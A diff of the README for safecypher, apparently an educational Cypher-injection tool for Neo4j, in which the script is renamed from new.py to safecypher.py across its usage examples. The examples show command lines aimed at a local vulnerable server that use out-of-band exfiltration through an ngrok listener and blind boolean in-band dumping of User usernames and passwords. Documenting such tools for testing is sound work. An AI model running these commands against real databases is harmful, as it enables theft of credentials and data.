

Before and after one commit to yufongg/safecypher, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -229,8 +229,8 @@ The commands below are tested on the vulnerable neo4j server
 
 ```
 ┌──(root💀kali)-[~/tools/web/safecypher]
-└─$ python3 new.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --help
-usage: new.py [-h] -u URL [-p PARAMETERS] [-c COOKIE] -m {API,GET,POST} [-i INT] [-s BLIND_STRING] [--listen-port LISTEN_PORT] [--out-of-band]
+└─$ python3 safecypher.py --help
+usage: safecypher.py [-h] -u URL [-p PARAMETERS] [-c COOKIE] -m {API,GET,POST} [-i INT] [-s BLIND_STRING] [--listen-port LISTEN_PORT] [--out-of-band]
               [--in-band] [--dump-all] [--labels] [-L LABEL] [--properties] [-P PROPERTY] [-R] [-t THREADS]
 
 Inject payloads into Neo4j for educational purposes
@@ -375,7 +375,7 @@ options:
 5. Dump everything
 	```
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 new.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
+	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
 	```
 
 #### Utilizing Ngrok for Public Testing
@@ -389,14 +389,14 @@ options:
 	```
 	# change -i to public
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 new.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i public -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
+	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i public -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
 	```
 
 ### In-Band (Blind Boolean)
 1. Dump labels
 	```
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 new.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band --labels -t 2
+	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band --labels -t 2
 
 	[*] target likely injectable, continuing
 	[+] working character: [']
@@ -412,7 +412,7 @@ options:
 2. Dump properties in relation to label
 	```
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 new.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band -L User --properties -t 2
+	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band -L User --properties -t 2
 
 	[*] target likely injectable, continuing
 	[+] working character: [']
@@ -427,7 +427,7 @@ options:
 3. Dump values in relation to label and properties
 	```
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 new.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band -L User -P username,password -t 2
+	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band -L User -P username,password -t 2
 
 	[*] target likely injectable, continuing
 	[+] working character: [']
````
Also changed, not shown: other parts of README.md (+6 -6 lines).
